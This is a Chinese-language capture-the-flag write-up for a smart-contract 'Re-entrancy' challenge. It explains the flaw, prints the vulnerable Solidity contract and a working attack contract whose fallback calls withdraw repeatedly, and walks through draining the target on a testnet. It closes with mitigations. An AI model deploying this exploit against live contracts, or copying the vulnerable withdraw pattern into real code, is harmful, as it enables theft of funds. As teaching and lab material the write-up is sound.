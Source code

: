 # Re-entrancy writeup
## 描述
* 目标：从合约中偷走所有的钱
* 提示：
    * 合约可以在你最不期待的地方执行代码：Fallback函数
    * 通过另一个合约来攻击这个合约：使用remix ide新建一个合约来与题目交互（不是像前几题一样可以用js console）

## 步骤
### 漏洞原理
* 在顺序执行的模式中，交叉调用的函数可能引起递归。当递归是withdraw函数时，攻击合约会一直提取，直到账户余额低于每次提取的额度。漏洞利用流程见下图：
![](https://miro.medium.com/max/3724/1*HGRY9Lbox56-o9nbCgBepg.jpeg)

* [The DAO Hack](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao)
### 查看合约代码
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    // 目标账户是否有足够资产
    if(balances[msg.sender] >= _amount) {
      // 进行提币操作，可以恶意递归调用的地方
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      // 修改目标账户的资产，在目标账户资产被全部转走之前不会被执行
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```
### 漏洞利用
1. 花费1 ether生成实例，得到目标合约地址：0xd991431d8b033ddcb84dad257f4821e9d5b38c33
    此时，目标账户上有1 ether
3. 创建攻击合约reenter.sol
```sol
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to]+msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}

contract ReentrancePoc {

    Reentrance reInstance;

    function getEther() public {
        msg.sender.transfer(address(this).balance);
    }

    function ReentrancePoc(address _addr) public{
        reInstance = Reentrance(_addr);
    }
    function callDonate() public payable{
        reInstance.donate.value(msg.value)(this);
    }

    function attack() public {
        // 递归调用withdraw函数
        reInstance.withdraw(1 ether);
    }

  function() public payable {
      if(address(reInstance).balance >= 1 ether){
        reInstance.withdraw(1 ether);
      }
  }
}    
```
3. 通过rinkeby测试网络将合约ReentrancePoc部署到目标地址上

4. 给部署后的合约地址转账1 ether，让被攻击合约通过第一个判断，此时查看被攻击合约的余额为2

5. 调用attack方法，进行攻击。在攻击后通过`await getBalance(contract.address)`查看被攻击合约的余额变为0

6. 提交实例

## 安全措施

* 使用`Checks-Effects-Interactions`pattern
* 不使用`transfer`和 `send`方法
[15 lines of code that could have prevented TheDAO Hack.](https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now)
* 永远假设资金收款人是另一个合约，而不是普通地址


## 参考链接
攻击环境：http://remix.app.hubwiz.com/
exp：https://xz.aliyun.com/t/7174